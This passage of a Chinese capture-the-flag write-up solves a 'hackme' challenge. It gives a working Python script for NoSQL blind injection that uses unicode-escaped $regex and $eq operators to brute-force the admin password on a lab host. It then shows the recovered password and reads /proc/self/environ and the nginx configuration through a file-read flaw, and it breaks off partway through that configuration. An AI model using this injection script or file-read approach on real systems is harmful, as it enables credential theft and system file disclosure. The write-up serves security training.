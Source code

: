 ![](https://api.lemonprefect.cn/image/hdslb/archive/c67b07d5-8cae-46d2-9e85-51c92780b759/1626763390869337/6a1127a1479f3693b81dab6f6c0bd5ce7d85d9f6.png)

```flag
flag{2dea8c2c-fd37-4f34-81a8-a1ee48f49039}
```

### hackme

#### SQL 注入读取文件

在页面源码中可以找到如下提示。

```html
<!--doyounosql?-->
```

因此使用脚本进行 NoSQL 盲注。

```python
import string
import requests

characters = string.ascii_letters + string.digits  # [A-Za-z0-9]
password = ""
payload = """{"username":{"$\\u0065\\u0071": "admin"}, "password": {"$\\u0072\\u0065\\u0067\\u0065\\u0078": "^%s"}}"""
url = "http://node4.buuoj.cn:25717/login.php"

for i in range(50):
    for character in characters:
        response = requests.post(url=url, data=(payload % (password + character)),
                                 headers={"Content-Type": "application/json; charset=UTF-8"})
        responseContent = response.content.decode()
        print(f"[+] Trying {character} with response {responseContent}")
        response.close()
        if "登录了" in responseContent:
            password += character
            print(f"[*] Found new character {character} with password now which is {password}")
            break
```

可以得出用户 `admin` 的密码为 `42276606202db06ad1f29ab6b4a1307f`。登录之后可以传入文件路径读取文件，尝试读取出 `/flag` 可以得到如下信息。

```plain text
string(5) "/flag" flag is in the Intranet
```

读取 `/proc/self/environ`，可以得到如下信息。

```plain text
string(18) "/proc/self/environ" USER=nginxPWD=/usr/local/nginx/htmlSHLVL=1HOME=/home/nginx_=/usr/bin/php
```

读取 nginx 的配置文件可以得到如下内容。

```nginx
worker_processes  1;

events {
    worker_connections  1024;
}


http {
    include       mime.types;
    default_type  application/octet-stream;

    sendfile        on;
    #tcp_nopush     on;
```